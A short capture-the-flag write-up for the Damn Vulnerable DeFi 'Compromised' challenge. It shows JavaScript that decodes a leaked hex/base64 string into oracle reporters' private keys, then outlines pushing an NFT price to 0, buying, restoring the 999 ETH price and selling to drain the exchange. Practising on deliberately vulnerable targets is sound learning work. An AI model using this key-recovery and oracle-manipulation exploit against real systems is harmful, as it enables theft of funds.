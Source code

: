#Challenge #7 - Compromised
While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

          4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

          4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each

This price is fetched from an on-chain oracle, and is based on three trusted reporters: 0xA73209FB1a42495120166736362A1DfA9F95A105,0xe92401A4d3af5E446d93D11EEc806b1462b39D15 and 0x81A5D6E50C214044bE44cA0CB057fe119097850c.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

# Solution

The number above are the private keys of the trusted reporters. Using the function below you can recover the private keys and its associated account

```

       const leakToPrivateKey = (leak) => {
          const base64 = Buffer.from(leak.split(` `).join(``), `hex`).toString(
            `utf8`
          );
          const hexKey = Buffer.from(base64, `base64`).toString(`utf8`);
          console.log(`Private key from base64: ${hexKey}`);
          return hexKey;
        };

        // codes from https://www.damnvulnerabledefi.xyz/challenges/7.html
        const compromisedOracles = [
          leakToPrivateKey(
            `4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35`
          ),
          leakToPrivateKey(
            `4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34`
          ),
        ].map((privateKeyHex) => {
          // important to keep the `0x` prefix
          return web3.eth.accounts.privateKeyToAccount(privateKeyHex);
        });

```

From there you can use these two account to change the price of the NFT account to 0, have attacker buy it then change the nft back 999 eth and then sell the nft again to the exchange.
